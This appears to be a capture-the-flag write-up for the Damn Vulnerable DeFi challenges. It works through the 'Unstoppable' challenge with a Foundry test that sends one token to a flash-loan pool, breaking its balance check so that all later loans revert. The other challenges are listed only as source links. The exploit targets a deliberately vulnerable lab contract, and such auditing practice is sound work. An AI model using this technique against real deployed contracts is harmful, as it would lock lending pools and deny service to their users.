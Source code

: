 # Damn Vulnerable Defi Foundry Writeup #

Hi, my name is Juan,  i wrote this writeup to help anybody interested in develop Smart contract auditing skills. I previously resolved other challenges as Ethernaut and CaptureTheEther so i recommend try them before get into this more advanced Defi challenges so i will asume you have a previous basic knowledge.

Any comments/corrections please reach me at my twitter account: **@devnet0x**

## Challenge 1: Unstoppable ##
We as attacker's must transfer 1 token to lender pool to create a difference between poolBalance and balanceBefore in this line from function flashloan():
        
        if (poolBalance != balanceBefore) revert AssertionViolated();
        
        

Then, nobody else will be able to borrow a flashloan:

```
   function testExploit() public {
        /** EXPLOIT START **/
        vm.startPrank(attacker);
        // We (attacker) transfer 1 token to lender pool to create a difference
        // between poolBalance and balanceBefore in this line from function flashloan():
        //
        // if (poolBalance != balanceBefore) revert AssertionViolated();
        //
        dvt.transfer(address(unstoppableLender), 1 ether);
        vm.stopPrank();
        /** EXPLOIT END **/
        vm.expectRevert(UnstoppableLender.AssertionViolated.selector);
        validation();
    }
```

Source Code:
https://github.com/devnet0x/Blockchain/tree/master/ChallengesCTF/DVDF_Foundry/01_Unstoppable

## Challenge 2: NaiveReceiver ##

Source Code:
https://github.com/devnet0x/Blockchain/tree/master/ChallengesCTF/DVDF_Foundry/02_NaiveReceiver

## Challenge 3: Truster ##

Source Code:
https://github.com/devnet0x/Blockchain/tree/master/ChallengesCTF/DVDF_Foundry/03_Truster

## Challenge 4: SideEntrance ##

Source Code:
https://github.com/devnet0x/Blockchain/tree/master/ChallengesCTF/DVDF_Foundry/04_SideEntrance

